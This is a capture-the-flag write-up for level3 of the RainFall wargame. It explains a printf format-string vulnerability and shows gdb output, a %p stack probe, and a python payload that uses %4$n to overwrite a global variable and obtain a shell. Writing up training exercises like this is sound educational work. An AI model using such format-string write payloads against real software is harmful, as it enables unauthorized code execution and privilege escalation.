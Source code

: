 INFO LVL
INFO EXE RIGHT

OBSERVATION
Using a disassembler we see a buffer of `500 bytes` in `n` function used by `fgets` and `printf`.
`fgets` can't be exploit to do a buffer overflow.
`printf` only use our buffer as argument, when it receive only a format string it will use stack address as argument.
The vulnerability comes from the use of `printf` with the buffer content without sanitize it, allowing us to print value from the stack with `%p` and write on it using `%n`.
We also see that a global variable `m` is compared with `64` and in case of equality open a shell.

STRATEGY

%n write in the address specified as argument the value corresponding to the number of byte printf has print before its occurence.
We need to find `m` address to overwrite it with the value 64 and access a shell.
We need to find the position of our buffer on the stack when using printf because we will use it as argument of %n with the address of m as value.

I. FINDING M ADDRESS
Using gdb we can see m address stored in eax and compared with 64.

```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]

 ```

II. FINDING BUFFER POSITION
Using this format string `AAAA %p %p %p %p` we will print the content of the four stack address that printf will use as argument and observe that the fourth is our buffer, because it's content is fill of 0x41 which is 'A' value in ASCII, the first four character of our buffer.

```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

```

III. OVERWRITING M
We will use `%[argument position]$[specifier]` syntax to give our specifier a chosen argument in the format string.
We will use the 4th argument which corespond to our buffer where we will store m address, so m will be the destination of the write that %n will perform.
We also need to print 64 bytes with printf before using %n, an address is 4 bytes so we need to add 60 characters to overwrite m value with 64.
So our payload will be:

```Shell
python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/input3

```

cat /tmp/input3 - | ./level3